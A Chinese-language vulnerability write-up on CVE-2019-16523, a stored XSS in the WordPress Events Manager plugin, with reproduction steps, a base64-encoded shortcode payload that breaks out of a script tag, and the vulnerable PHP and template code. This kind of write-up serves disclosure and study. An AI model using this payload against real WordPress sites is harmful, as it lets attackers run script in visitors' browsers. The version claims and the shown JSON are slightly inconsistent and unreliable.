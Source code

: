 # CVE-2019-16523 WordPress Plugin - Events Manager 储存型xss

### 一、漏洞简介

WordPress的5.9.5版以上的事件管理器插件（又名“事件管理器”）容易受到存储的XSS的影响，这是由于编码不正确和插入提供给该插件提供的短码属性map_style（locations_map和events_map）的数据所致。

### 二、漏洞影响

wordpress <= 5.9.5

### 三、复现过程

1、利用过程

要利用此漏洞，攻击者需要创建或编辑帖子并插入上面提到的短代码之一。在此示例中，我们使用locations_map简码并将属性设置 map_style为的base64编码值


```bash
{"a":"test\"</script><script></script>"}。
```

这将导致以下简码：


```bash
[locations_map test="" map_style="eyJhIjoidGVzdFwiPC9zY3JpcHQ+PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0PiJ9Cg=="]
```

然后可以将该短代码插入到帖子中，然后由恶意用户发布。任何访问该职位的人都会受到有效载荷的影响，因此是XSS攻击的受害者。

2、详细分析

Events Manager插件提供了用于创建地图小部件的短代码，例如用于显示事件的位置。通过map_style使用简码中的属性提供自定义样式，可以直观地调整这些地图。为了防止XSS ，在shortcode属性内使用HTML 受到限制。但是，在这种情况下，可以注入任意HTML和JavaScript，因为该 map_style属性需要一个以base64编码的JSON对象。这允许绕过消毒。简码locations_map和events_map受此问题影响：

在em-shortcode.php（第43-56行），我们可以看到该属性是经过base64解码的，然后使用json_decode进行了解析。如果JSON语法有效，则将删除空格并将对象作为map_json_style变量传递到模板。请参见下面的代码段：


```php
//add JSON style to map
$style = '';
if( !empty($args['map_style']) ){
    $style= base64_decode($args['map_style']);
    $style_json= json_decode($style);
    if( is_array($style_json) || is_object($style_json) ){
        $style = preg_replace('/[\r\n\t\s]/', '', $style);
    }else{
        $style = '';
    }
    unset($args['map_style']);
}
ob_start();
em_locate_template('templates/map-global.php',true, array('args'=>$args, 'map_json_style' => $style));
```

在templates/templates/map-global.php（第16-21行）中，变量无需进一步编码即可插入脚本标签内：


```js
<script type="text/javascript">
    if( typeof EM == 'object'){
        if( typeof EM.google_map_id_styles != 'object' ) EM.google_map_id_styles = [];
        EM.google_map_id_styles['<?php echo $args['random_id']; ?>'] = <?php echo $map_json_style; ?>;
    }
</script>
```

这样就完美的构成了xss payload